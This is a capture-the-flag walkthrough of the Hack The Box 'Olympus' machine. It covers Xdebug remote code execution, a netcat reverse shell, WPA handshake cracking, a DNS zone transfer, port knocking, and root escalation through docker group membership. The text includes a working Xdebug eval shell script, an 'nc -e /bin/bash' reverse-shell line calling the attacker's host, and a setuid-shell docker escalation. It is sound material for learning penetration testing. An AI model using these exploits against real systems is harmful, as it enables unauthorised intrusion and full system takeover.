# Hackthebox Writeup for Olympus
Olympus is an interesting box because it has a number of layers.  Let's start with enumerating it to see what we are working with.

## Enumeration
```bash
# -sC runs default NSE scripts
# -sV prints out service information
# -oA outputs the results in all formats to the specified directory with the specified prefix (the nmap directory with a prefix of olympus)
# 10.10.10.83 is the target IP

nmap -sC -sV -oA nmap/olympus 10.10.10.83
```

```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-24 19:19 EDT
Nmap scan report for 10.10.10.83
Host is up (0.035s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
| dns-nsid: 
|_  bind.version: Bind
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    Bind
80/tcp   open     http    Apache httpd
|_http-server-header: Apache
|_http-title: Crete island - Olympus HTB
2222/tcp open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-City of olympia
| ssh-hostkey: 
|   2048 f2:ba:db:06:95:00:ec:05:81:b0:93:60:32:fd:9e:00 (RSA)
|   256 79:90:c0:3d:43:6c:8d:72:19:60:45:3c:f8:99:14:bb (ECDSA)
|_  256 f8:5b:2e:32:95:03:12:a3:3b:40:c5:11:27:ca:71:52 (ED25519)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.70%I=7%D=8/24%Time=5B8092AB%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,3F,"\0=\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x05\x04Bind\xc0\x0c\
SF:0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.70%I=7%D=8/24%Time=5B8092A6%P=x86_64-pc-linux-gnu%r(NU
SF:LL,29,"SSH-2\.0-City\x20of\x20olympia\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.48 seconds
```

There are some interesting ports here.  The traditional SSH port (22) is filtered, but SSH is running on 2222.  This box is also serving DNS as well as HTTP.

We will start with the web server.  When you go to the page, there is just an image.  However, if we look at the headers, we notice something interesting:



The ```"Xdebug: 2.5.5"``` gives us a hint about what is running on the server.  Xdebug is a extension for PHP that provides debugging capability<sup>[1]</sup>.  After Googling, we find a remote code execution vulnerability<sup>[2]</sup>.  Xdebug has functionality that allows for connections back to the developer's machine for testing and debugging.  Normally, the developer would specify an IP that is allowed to connect to the debugger.  However, the ```remote_connect_back``` option ignores the IP setting and connects back to any host that activates it.  With Xdebug, you can execute arbitrary code through its eval function.

This vulnerability is present in Xdebug versions up to 2.5.5.  Fortunately for us, the server is running Xdebug 2.5.5.  To take advantage of it, we have to do the following:
  1.  Start a listener on our machine on any port (we will use 8090 for this example).  This will be for the reverse shell we will spawn later.
  2.  Start an Xdebug session by passing the ```XDEBUG_SESSION_START``` variable with an arbitrary name.  If the ```remote_connect_back``` option is set, we will get a callback on port 9000.  This port is hardcoded in Xdebug.  We will need a shell set up on that port.
  3.  Use the eval command in Xdebug to spawn a reverse shell to the port we are listening on from step 1.

### Step 1
```bash
# Set up a netcat listener on port 8090.
nc -vvlp 8090
```

### Step 2

Here is the shell we will use to accept the connection from Xdebug and send it commands.
```python
#!/usr/bin/python2
import socket

# Listen on port 9000
ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)

# Listen for up to 10 connections.
# If something happens while we are working, we do not have to restart the server.
sk.listen(10)

# When we get a connection, accept it.
conn, addr = sk.accept()

while True:
    # Receive and display any data from the connection
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    # Send the eval command as Xdebug expects it (base64 encoded with a null byte at the end)
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```
Now that we have our shell set up, we need to get Xdebug to call us back.
```bash
# The X-FORWARDED-FOR header tells Xdebug where to call us back
# We are going to give the Xdebug session the name phpstorm.  It does not matter what we call the session.
curl -H 'X-FORWARDED-FOR: 10.10.14.38' 'http://10.10.10.83/?XDEBUG_SESSION_START=phpstorm'
```

This is what the callback looks like:


### Step 3
This Python command will tell netcat to spawn a reverse shell and connect to us on port 8090.
```python
# -e says spawn a shell using /bin/bash.
# Our IP is 10.10.14.38, and the port we are listening on is 8090.
system("nc -e /bin/bash 10.10.14.38 8090")
```
Here is the reverse shell from netcat:


We can use this to grab a copy of /etc/passwd to see what users are on the box:
```
/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
zeus:x:1000:1000::/home/zeus:/bin/bash
```
We see that zeus is one of the few users that can log in, so his home directory seems like a good place to start.
The Xdebug shell gives us access as whatever user the web server (Apache in this case) is running as.  On many systems, that is www-data.
However, sometimes users leave their home directories open, so we can see if there is anything in zeus' home directory that is world
readable.



The only folder we can see is airgeddon.  Airgeddon<sup>[3]</sup> is a tool for auditing wireless networks.  If we go through the directories, we can find a file called ```captured.cap``` in ```/home/zeus/airgeddon/captured```.  We can also see a file called papyrus.txt.

```bash
cat /home/zeus/airgeddon/captured/papyrus.txt
Captured while flying. I'll banish him to Olympia - Zeus
```

To look at the capture file, I copied it to ```/var/www/html``` where I could easily download it.

If we open it up in Wireshark, we can see that it is a capture of a device sending deauthorization packets to all devices in range (the destination is Broadcast).  This is a common attack used to sniff authorized clients attempting to reassociate with the wireless access point.  The handshake can be captured and cracked offline, especially if the password is easy to guess.  We can use aircrack-ng<sup>[4]</sup> to attempt to recover the password for the SSID ```Too_cl0se_to_th3_Sun```.  For the wordlist, we will use rockyou.

```bash
# -w allows us to specify a wordlist
aircrack-ng -w /usr/share/wordlists/rockyou.txt captured.cap
```

After 11 minutes or so, aircrack-ng finds the password: ```flightoficarus```



I tried to use both the SSID and the key aircrack-ng as the password for zeus, but neither worked.  After flailing around for a bit, I thought about the other file we found in ```/home/zeus/airgeddon/captured``` (papyrus.txt) and the fact that SSH is running on a non-standard port.  Perhaps this box is hosting one or more containers or VMs and the open SSH port is to a container or VM.  That could mean that the users we found in ```/etc/passwd``` are on the host and not in the container or VM.  After trying a few possibilities, I found I could SSH in as the user ```icarus``` with the password was ```Too_cl0se_to_th3_Sun```.



As we poke around in icarus' home directory, we get another clue:



```bash
icarus@620b296204a3:~$ cat help_of_the_gods.txt 

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb
```

```ctfolympus.htb``` looks like a hostname.  This box is running a DNS server, so maybe we can use the DNS server on this box to resolve that hostname:
```bash
# We will use nslookup.
nslookup

# The server command tells nslookup to use the given server to resolve queries.
> server 10.10.10.83
Default server: 10.10.10.83
Address: 10.10.10.83#53
> ctfolympus.htb
Server:		10.10.10.83
Address:	10.10.10.83#53

Name:	ctfolympus.htb
Address: 192.168.0.120
```

We can also try a zone transfer to get more DNS records from the box.  Zone transfers are used to transfer all records for a DNS zone to another machine.  This is useful when you need to keep multiple DNS servers in sync.  This does not always work since most administrators set up access control lists to only allow zone transfers to certain machines (the DNS servers they want to keep in sync for example).  However, it does not hurt to try.  We will use the ```dig``` command.

```bash
# Zone transfer on the domain we discovered before.
root@kali:~/ctf/hackthebox/olympus# dig -t axfr ctfolympus.htb @10.10.10.83

; <<>> DiG 9.11.3-2-Debian <<>> -t axfr ctfolympus.htb @10.10.10.83
;; global options: +cmd
ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.		86400	IN	TXT	"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.		86400	IN	A	192.168.0.120
ctfolympus.htb.		86400	IN	NS	ns1.ctfolympus.htb.
ctfolympus.htb.		86400	IN	NS	ns2.ctfolympus.htb.
ctfolympus.htb.		86400	IN	MX	10 mail.ctfolympus.htb.
crete.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
hades.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
mail.ctfolympus.htb.	86400	IN	A	192.168.0.120
ns1.ctfolympus.htb.	86400	IN	A	192.168.0.120
ns2.ctfolympus.htb.	86400	IN	A	192.168.0.120
rhodes.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN	TXT	"Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
;; Query time: 36 msec
;; SERVER: 10.10.10.83#53(10.10.10.83)
;; WHEN: Fri Aug 24 22:55:53 EDT 2018
;; XFR size: 15 records (messages 1, bytes 475)

```

Looks like we have another breadcrumb in the TXT record:
```
ctfolympus.htb.		86400	IN	TXT	"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
```
When I saw this, I thought of port knocking<sup>[5]</sup>.  An administrator can set up port knocking to hide a port by having it open once a sequence of other ports are accessed.  For example, if I wanted to hide port 1234, I could set up a port knocking sequence where someone had to "knock" on ports 3495, 3939, and 54362 before port 1234 would open.  This is an example of security through obscurity.  However, if the sequence is compromised, it is not much of a defense.

To test our theory, we need to use a script because most port knocking daemons expect us to hit the ports in sequence quickly.  We do not have time to poke the port, press up, change the port, and try again.  I used a script I found here<sup>[6]</sup>.

```bash
#!/bin/bash
# Usage: port-knock.sh <host> <ports to knock separated by spaces>
# The host is the first argument
HOST=$1

# shift will shift the argument list left, so the first port we want to knock will now be the first argument in the argument list
shift

# bash expands $@ to the list of positional arguments in the script
# Since we shifted, this is the list of ports.
for ARG in "$@"
do
    # Use nmap to send a SYN packet to the current port in the iteration - nmap sends a SYN packet if you do not specify another type of scan
    # -Pn says do not ping the host first
    # --host-timeout tells nmap to wait up to 100 seconds
    # --max-retries 0 tells nmap not to try to hit the port more than once
    nmap -Pn --host-timeout 100 --max-retries 0 -p $ARG $HOST
done
```

Through trial and error, I figured out that the user we SSH in as prometheus.  This was the name in the TXT record.  I guessed that the port we were trying to open with the port knock was SSH since it was filtered.  If this had not worked, we would have had to try other ports.  The password was also in the TXT record (```St34l_th3_F1re!```).

```bash
root@kali:~/ctf/hackthebox/olympus# ./knock.sh 10.10.10.83 3456 8234 62431 && ssh prometheus@10.10.10.83
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-24 22:46 EDT
Nmap scan report for 10.10.10.83
Host is up (0.038s latency).

PORT     STATE  SERVICE
3456/tcp closed vat

Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-24 22:46 EDT
Nmap scan report for 10.10.10.83
Host is up (0.033s latency).

PORT     STATE  SERVICE
8234/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-24 22:46 EDT
Nmap scan report for 10.10.10.83
Host is up (0.028s latency).

PORT      STATE  SERVICE
62431/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
prometheus@10.10.10.83's password: 
```



The user flag is in prometheus' home directory:


## Root Flag
In prometheus' there is another breadcrumb:
```bash
prometheus@olympus:~$ cat msg_of_gods.txt 

Only if you serve well to the gods, you'll be able to enter into the

      _                           
 ___ | | _ _ ._ _ _  ___  _ _  ___
/ . \| || | || ' ' || . \| | |<_-<
\___/|_|`_. ||_|_|_||  _/`___|/__/
        <___'       |_|           

```

Among the things we can look for when we are enumerating a box is the current groups that the user is a part of:


Having a user in the docker group can be dangerous.  Docker typically runs as root on the host, and users in the docker group can run docker commands.  We can utilize this group membership to escalate privileges<sup>[7]</sup>.  Using the technique on that page, let's see if we can get a root shell.

Steps:
  1.  Create a dockerfile that describes a new container.  In that container, we will expose a directory from the host to the container.  This will allow us to write files from the container to the host.  This does not sound very interesting, but it will make sense shortly.
  2.  Build the new container.
  3.  Run a command in the container that makes a copy of /bin/sh (or whatever shell you want to use), changes the ownership to root, and sets the sticky bit.  We will make the copy in the folder that is shared between the host and container.  We are root in the container, so if we are able to create an executable that runs as root in the container and write it to the host, we will be able to run it as root on the host.

### Step 1
```bash
# Here is the dockerfile we will use.
# I saved it in /tmp/procontainer (prometheus container), but anywhere writable will work.

# Leverage one of the existing images since we cannot connect to the internet
# You can get a list of images on the host using the command "docker image ls"
FROM crete

# Make a new environment called WORKDIR and point it at a writeable directory
ENV WORKDIR /tmp

# Create WORKDIR if it does not exist
RUN mkdir -p $WORKDIR

# Expose WORKDIR as a volume to the container
VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
```

### Step 2
```bash
# Build it
prometheus@olympus:/tmp/procontainer$ docker build -t procontainer .
Sending build context to Docker daemon  2.048kB
Step 1/5 : FROM crete
 ---> 31be8149528e
Step 2/5 : ENV WORKDIR /tmp
 ---> Running in 0d76afe659b3
Removing intermediate container 0d76afe659b3
 ---> 45c8c6d5bc22
Step 3/5 : RUN mkdir -p $WORKDIR
 ---> Running in 3aedb7300193
Removing intermediate container 3aedb7300193
 ---> 8e7637415702
Step 4/5 : VOLUME [ $WORKDIR ]
 ---> Running in e390abd9bb3c
Removing intermediate container e390abd9bb3c
 ---> fb40272a38e3
Step 5/5 : WORKDIR $WORKDIR
Removing intermediate container f0a3f5c33acc
 ---> b9b703926132
Successfully built b9b703926132
Successfully tagged procontainer:latest
```

### Step 3
```bash
# Map the present working directory on the host to /tmp in the container.  Have the container run /bin/sh -c "cp /bin/sh /tmp && chown root.root sh && chmod a+s sh"
# This command copies /bin/sh inside of the container to /tmp which is mapped to the present working directory on our host
# It will then chown the copied /bin/sh to root:root
# Then it will add the sticky bit to the copied /bin/sh which will allow anyone who can execute it to run it as the owner of the binary (root in this case)
# Since these changes are being made on the host, the binary will have root privileges on the host.
prometheus@olympus:/tmp/procontainer$ docker run -t -v $PWD:/tmp procontainer /bin/sh -c "cp /bin/sh /tmp && chown root.root sh && chmod a+s sh"
prometheus@olympus:/tmp/procontainer$ ls -al
total 136
drwxr-xr-x 2 prometheus prometheus   4096 Aug 24 20:41 .
drwxrwxrwt 9 root       root         4096 Aug 24 20:41 ..
-rw-r--r-- 1 prometheus prometheus     88 Aug 24 20:38 Dockerfile
-rwsr-sr-x 1 root       root       125400 Aug 24 20:41 sh
prometheus@olympus:/tmp/procontainer$ ./sh
# id

# We can see an effective user ID of 0, so we are root in this shell
uid=1000(prometheus) gid=1000(prometheus) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker),1000(prometheus)
# ls -al /root
total 28
drwx------  4 root root 4096 Apr 15 06:55 .
drwxr-xr-x 22 root root 4096 Apr  2 13:48 ..
-rw-------  1 root root    0 Apr 15 07:20 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 Apr  2 13:49 .cache
drwxr-xr-x  2 root root 4096 Apr 15 06:55 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Apr  4 14:00 root.txt
# cat /root/root.txt
aba...
```



We will clean up the container now that we are done.

```bash
docker rmi -f procontainer
rm -r /tmp/procontainer
```

## Conclusion
This box was really interesting because it had us explore and play with a number of techniques:

  * Exploiting a vulnerability in a piece of software (Xdebug)
  * Using aircrack-ng to recover the passphrase for a wireless network
  * Zone transfers and DNS enumeration
  * Port knocking
  * Privilege escalation using Docker

## References
[1]: https://xdebug.org/ "Xdebug"
[2]: https://paper.seebug.org/397/ "Xdebug: A Tiny Attack Surface"
[3]: https://github.com/v1s1t0r1sh3r3/airgeddon "Airgeddon"
[4]: https://www.aircrack-ng.org/ "Aircrack-ng"
[5]: https://wiki.archlinux.org/index.php/Port_knocking "Port knocking - ArchWiki"
[6]: https://highon.coffee/blog/fartknocker-walkthrough/ "FartKnocker - Walkthrough"
[7]: https://0x00sec.org/t/docker-privilege-escalation-how-the-hell-did-you-do-that/1103 "Docker Privilege Escalation"

  * [<sup>1</sup> Xdebug](https://xdebug.org/)
  * [<sup>2</sup> Xdebug: A Tiny Attack Surface](https://paper.seebug.org/397/)
  * [<sup>3</sup> Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)
  * [<sup>4</sup> Aircrack-ng](https://www.aircrack-ng.org/)
  * [<sup>5</sup> Port knocking - ArchWiki](https://wiki.archlinux.org/index.php/Port_knocking)
  * [<sup>6</sup> FartKnocker - Walkthrough](https://highon.coffee/blog/fartknocker-walkthrough/)
  * [<sup>7</sup> Docker Privilege Escalation](https://0x00sec.org/t/docker-privilege-escalation-how-the-hell-did-you-do-that/1103)
